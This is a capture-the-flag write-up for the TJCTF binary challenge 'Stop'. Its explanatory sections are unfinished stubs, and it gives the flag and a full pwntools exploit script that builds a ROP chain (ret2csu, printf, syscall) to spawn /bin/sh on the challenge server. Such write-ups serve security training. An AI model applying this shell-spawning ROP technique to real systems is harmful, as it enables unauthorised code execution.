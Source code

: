 # tjctf: binary

## Stop [70]

Written by KyleForkBomb

_I love playing stop, but I am tired of losing. Check out my new stop answer generator!_

_It's a work in progress and only has a few categories, but it's 100% bug-free!_

`nc p1.tjctf.org 8001`

## Inspection

-details of where we want to attack

## Black Magic

-gadget limitations

## Execution

-finalising

<p align="center">
<img src="interactive.png">
</p>

## flag

`tjctf{st0p_th4t_r1ght_now}`

## code
```python
from pwn import *
#lots of constants
r_offset = cyclic_find("uaac") #find this empirically
E = ELF('./stop.o')
binsh = 0x400A1A        #location of the "/bin/sh" string
len59 = 0x4006F0+5-59   #an eyeballed address containing a 59-byte long C-string
printf = E.symbols['printf']
#find these gadgets from ropper, or otherwise
pop_rdi = 0x400953
pop_six = 0x40094A
pop_rsi_r15 = 0x400951
mov_rdx_call = 0x400930
dynamic_init = 0x601de0 #x/5g &_DYNAMIC
read_syscall = E.symbols['read']    #the read() function
#helper functions to create ROPchains that write to certain registers
ret2csu = lambda rdx: [pop_six, 0, 1, dynamic_init, 0, 0, rdx]+[mov_rdx_call]+[0]*7
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_r15, rsi, 0]
#rop chain starts here
rop = ret2csu(0)                #rdx = 0
rop+= [pop_rdi, len59, printf]  #rdi = "<length-59 str>"; printf(rdi)
rop+= rdi_rsi(binsh, 0)         #rdi = "/bin/sh", rsi = 0
rop+= [read_syscall+5]          #syscall
rop = ''.join(map(p64,rop))
r = remote('p1.tjctf.org', 8001)
r.sendlineafter('? ', 'a')
assert len(rop)+r_offset < 598  #input requirement
r.sendlineafter('? ', 'a'*r_offset + rop)
r.interactive()
```
## footnotes
